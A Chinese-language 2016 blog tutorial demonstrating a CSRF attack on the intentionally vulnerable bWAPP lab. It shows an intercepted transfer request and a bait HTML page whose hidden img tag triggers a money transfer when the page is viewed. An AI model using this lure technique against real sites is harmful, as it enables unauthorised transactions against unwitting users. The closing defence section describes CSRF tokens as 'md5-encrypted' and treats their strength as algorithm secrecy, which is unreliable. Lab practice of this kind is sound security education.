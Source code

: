 ```yaml
---
published: true
title: CSRF (Cross Site Request Forgery) 跨站請求偽造攻擊 in OWASP
layout: post
author: David
modified: 2016-09-09
category: [ NetSecurity , OWASP Top10 ]
tags:
- csrf
- cross-site-request-forgery
- NetSecurity
- owasp top10
- OWASP
- Burp-Suite
- cookies
comments: true
---
```

<div class='post-body entry-content' id='post-body-542148310267796862' itemprop='description articleBody'>
CSRF全名為Cross-Site-Request-Forgery&#65292;跨站請求偽造攻擊&#12290;<br />
簡而言之&#65292;駭客利用你瀏覽網站時尚未過期的session來進行偽造&#65292;發送惡意request&#12290;<br />
<br />
舉個例子&#65292;以網路銀行為例&#65292;你向網銀發送帳號密碼進行驗證&#65292;驗證通過後server會回傳驗證成功&#65292;可以進行所有&#8220;登入後才可以進行的動作&#8221;&#12290;<br />
這時候駭客利用網銀尚未通知閒置過久(session未過期)&#65292;可以利用社交工程或者是其他方式讓user在不知不覺中發送request&#12290;<br />
<br />
如何做到就是我們以下要講的&#12290;<br />
<br />
我們利用原先就有CSRF漏洞的OWASP bWApp來進行練習&#12290;<br />
目的就是讓user讓不知不覺的情況下成功被轉帳&#12290;<br />
<br />
step1.我們必須要知道&#8220;轉帳&#8221;這個步驟在web端如何發送request&#12290;<br />
我們可以用自己電腦來得到這個連結<br />
先將瀏覽器設定代理伺服器(Proxy)<br />
使用Burp-Suite內建proxy工具進行request攔截<br />
<a href="http://4.bp.blogspot.com/-kpfsA12kwv4/V9GNMyTNszI/AAAAAAAAA0c/a8UYfxg1R0o1g9Xm_F8GAYqGq_ww2HMwwCK4B/s1600/%25E8%259E%25A2%25E5%25B9%2595%25E5%25BF%25AB%25E7%2585%25A7%2B2016-09-09%2B%25E4%25B8%258A%25E5%258D%258812.08.39.png" imageanchor="1"><img border="0" height="200" src="https://4.bp.blogspot.com/-kpfsA12kwv4/V9GNMyTNszI/AAAAAAAAA0c/a8UYfxg1R0o1g9Xm_F8GAYqGq_ww2HMwwCK4B/s320/%25E8%259E%25A2%25E5%25B9%2595%25E5%25BF%25AB%25E7%2585%25A7%2B2016-09-09%2B%25E4%25B8%258A%25E5%258D%258812.08.39.png" width="320" /></a><br />
<br />
可以看到在我們設定proxy之後&#65292;點擊"transfer"網頁會有點卡住<br />
那是因為我們的request被攔截下來了<br />
這時候我們可以看到這一段語法是轉帳的執行語法<br />
<span style="color: red;">GET /bWAPP/csrf_2.php?account=123-45678-90&amp;amount=0&amp;action=transfer HTTP/1.1</span><br />
<span style="color: red;">account=轉出帳號</span><br />
<span style="color: red;">amount=轉出金額</span><br />
p.s.按Forward可以繼續將request送出&#65292;甚至可以修改再送出&#12290;<br />
<br />
step2.撰寫釣魚網頁<br />
為了簡化過程&#65292;我們簡化網頁內容&#65292;實際進行攻擊的網頁通常不會這麼簡單&#12290;<br />
<a href="http://2.bp.blogspot.com/-2ICSH4fgLyE/V9GO1q0ouDI/AAAAAAAAA0k/iLMH0uw1ZWcEFORzbj4yI3Cq95gB26ZNwCK4B/s1600/%25E8%259E%25A2%25E5%25B9%2595%25E5%25BF%25AB%25E7%2585%25A7%2B2016-09-09%2B%25E4%25B8%258A%25E5%258D%258812.15.49.png" imageanchor="1"><img border="0" height="200" src="https://2.bp.blogspot.com/-2ICSH4fgLyE/V9GO1q0ouDI/AAAAAAAAA0k/iLMH0uw1ZWcEFORzbj4yI3Cq95gB26ZNwCK4B/s320/%25E8%259E%25A2%25E5%25B9%2595%25E5%25BF%25AB%25E7%2585%25A7%2B2016-09-09%2B%25E4%25B8%258A%25E5%258D%258812.15.49.png" width="320" /></a><br />
<br />
<br />
##################################<br />
&lt;html&gt;<br />
&lt;head&gt;<br />
<span class="Apple-tab-span" style="white-space: pre;"> </span>&lt;meta charset="utf-8"&gt;<br />
&lt;/head&gt;<br />
<span class="Apple-tab-span" style="white-space: pre;"> </span>&lt;body&gt;<br />
<span class="Apple-tab-span" style="white-space: pre;">  </span>&lt;font&gt;<br />
<span class="Apple-tab-span" style="white-space: pre;">   </span>泰勒絲愛你哦 &lt;/br&gt;<br />
<span class="Apple-tab-span" style="white-space: pre;">   </span>這是泰勒斯的電話跟照片 &lt;/br&gt;<br />
<span class="Apple-tab-span" style="white-space: pre;">   </span>0931097313 &lt;/br&gt;<br />
<span class="Apple-tab-span" style="white-space: pre;">   </span>點擊照片到我的blog看更多照片哦&lt;/br&gt;<br />
<span class="Apple-tab-span" style="white-space: pre;">  </span>&lt;/font&gt;<br />
<span class="Apple-tab-span" style="white-space: pre;">  </span>&lt;img src="http://172.20.10.2/bWAPP/csrf_2.php?account=123-45678-90&amp;amount=200&amp;action=transfer=a.jpg"&gt;<br />
<span class="Apple-tab-span" style="white-space: pre;">  </span>&lt;a href="http://www.google.com.tw" target=""&gt; &nbsp;&lt;img src="http://www.daliulian.org/imgs/image/12/1251496.jpg"&gt;<span class="Apple-tab-span" style="white-space: pre;"> </span>&lt;/a&gt;<br />
<span class="Apple-tab-span" style="white-space: pre;"> </span>&lt;/body&gt;<br />
&lt;/html&gt;<br />
#################################<br />
<br />
<br />
step3. 尋找目標下手<br />
撰寫完成只要找尋目標&#65292;使user成功點擊網站&#65292;即可完成轉帳&#12290;<br />
user不需要點擊任何圖片或者是網址&#65292;只需要看到這個頁面就可以進行CSRF攻擊了&#12290;<br />
<a href="http://3.bp.blogspot.com/-os2U7Tlh4SU/V9GP7asOWoI/AAAAAAAAA0s/lMGIwe2SO7c9vLsXIuTQ2PLeFKyQn_ivgCK4B/s1600/%25E8%259E%25A2%25E5%25B9%2595%25E5%25BF%25AB%25E7%2585%25A7%2B2016-09-09%2B%25E4%25B8%258A%25E5%258D%258812.20.39.png" imageanchor="1"><img border="0" height="200" src="https://3.bp.blogspot.com/-os2U7Tlh4SU/V9GP7asOWoI/AAAAAAAAA0s/lMGIwe2SO7c9vLsXIuTQ2PLeFKyQn_ivgCK4B/s320/%25E8%259E%25A2%25E5%25B9%2595%25E5%25BF%25AB%25E7%2585%25A7%2B2016-09-09%2B%25E4%25B8%258A%25E5%258D%258812.20.39.png" width="320" /></a><br />
<br />
step4.我們回到剛剛的bWApp帳戶頁面&#65292;重新整理後會發現已經如程式碼所寫的轉出200 EUR了&#65292;然後這段時間user沒有對這個網頁進行任何動作&#12290;<br />
<a href="http://3.bp.blogspot.com/-GEu9bf75qnE/V9GQcIZDlHI/AAAAAAAAA00/rqiRgfRHIgQztFwSsxfQO9M_CvYeIyTUACK4B/s1600/%25E8%259E%25A2%25E5%25B9%2595%25E5%25BF%25AB%25E7%2585%25A7%2B2016-09-09%2B%25E4%25B8%258A%25E5%258D%258812.22.52.png" imageanchor="1"><img border="0" height="200" src="https://3.bp.blogspot.com/-GEu9bf75qnE/V9GQcIZDlHI/AAAAAAAAA00/rqiRgfRHIgQztFwSsxfQO9M_CvYeIyTUACK4B/s320/%25E8%259E%25A2%25E5%25B9%2595%25E5%25BF%25AB%25E7%2585%25A7%2B2016-09-09%2B%25E4%25B8%258A%25E5%258D%258812.22.52.png" width="320" /></a><br />
<br />
總結&#65306;<br />
這是因為user的request已經被我們依樣畫葫蘆偽造了一份&#65292;並加以修改回傳給銀行server&#65292;然而銀行也未查覺到有任何異常&#65292;在銀行看來就是user發送的一般請求而已&#12290;<br />
<br />
防禦&#65306;<br />
現在網路服務皆會設定閒置過期時間(session-time-out)&#65292;閒置過久將會被自動登出&#65292;減少被偽造的機會&#12290;<br />
而有些較大的web server&#65292;例如facebook&#12289;google...etc會設有token&#65292;所謂token就是利用演算法算出一組unique key&#65292;再經由md5加密送出&#65292;user做任何動作都需要token驗證&#65292;使駭客無從偽造&#65292;因為他沒有使用你當前的瀏覽器就無法得知你目前的token是什麼&#12290;<br />
當然你會說&#65292;md5加密還是可以破解&#65292;沒錯&#65281;所以重點在於演算法的精密度&#65292;越精密的演算法&#65292;駭客越無從猜測&#65292;也就無從破解&#12290;<br />
目前ASP.Net 的mvc上的CSRF防禦已經非常普遍化了&#65292;可以利用簡單的程式碼計算token&#65292;加以防禦簡單的CSFR攻擊&#12290;<br />
<br />
經由以上簡單的CSRF滲透測試&#65292;雖然現今大部分網頁服務都有防禦CSRF&#65292;但是我們必須知道如果不使用的話&#65292;盡可能登出網頁服務&#65292;就可以避免造成不必要的風險&#12290;<br />
<br />
<div style="text-align: right;">
&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;2016-09-09 , David in Taipei.</div>